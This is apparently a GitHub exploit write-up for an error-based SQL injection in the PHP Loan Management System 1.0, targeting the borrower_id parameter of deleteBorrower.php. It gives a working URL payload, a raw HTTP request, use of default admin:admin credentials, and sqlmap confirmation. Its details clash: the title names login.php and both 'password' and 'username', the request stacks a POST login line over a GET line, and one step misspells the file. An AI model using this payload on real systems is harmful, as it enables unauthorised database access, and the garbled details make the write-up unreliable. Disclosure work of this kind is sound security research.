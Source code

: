 ```yaml
---
typora-root-url: ./images
---
```


# Loan Management System - login.php 'password' SQL inject

#### Exploit Title: Loan Management System - login.php 'username' SQL inject

#### Exploit Author: [webraybtl@webray.com.cn](mailto:webraybtl@webray.com.cn) inc

#### Vendor Homepage: https://www.sourcecodester.com/php/15529/loan-management-system-oop-php-mysqlijquery-free-source-code.html

#### Software Link:https://www.sourcecodester.com/php/15529/loan-management-system-oop-php-mysqlijquery-free-source-code.html

#### Version: Loan Management System 1.0

#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description

The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection vulnerability.Loan Management System does not filter the content correctly at the "deleteBorrower.php/borrower_id" parameter, resulting in the generation of SQL injection.

#### Payload used:

```POST /login.php HTTP/1.1
GET /deleteBorrower.php?borrower_id=1'%20AND%20GTID_SUBSET(CONCAT("data:",database()),8194)--%20GZSp HTTP/1.1
Host: 192.168.67.11:8091
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.67.11:8091/borrower.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=bes3u5nf3elraj4jtmpnaoac0n
Connection: close
```

#### Proof of Concept

1、Log in to the system using the default password admin: admin

2、Add a piece of data on the Borrower page

![browsersql1](/browsersql1.png)

3、Click 'delete' and grab the package, locate the file as' deleteBrower.php '.Looking at the source code, it is found that the borrower_id field is directly brought into the SQL statement query without filtering

 ![browsersql2](/browsersql2.png)

4、We can construct SQL statements to query the name of the database

payload:`http://xxxx/deleteBorrower.php?borrower_id=1'%20AND%20GTID_SUBSET(CONCAT("data:",database()),8194)--%20GZSp`

 ![image-20231124164743407](/browsersql3.png)

5、Testing using the sqlmap tool can also detect SQL injection vulnerabilities

![image-20231124165021375](/browsersql4.png)
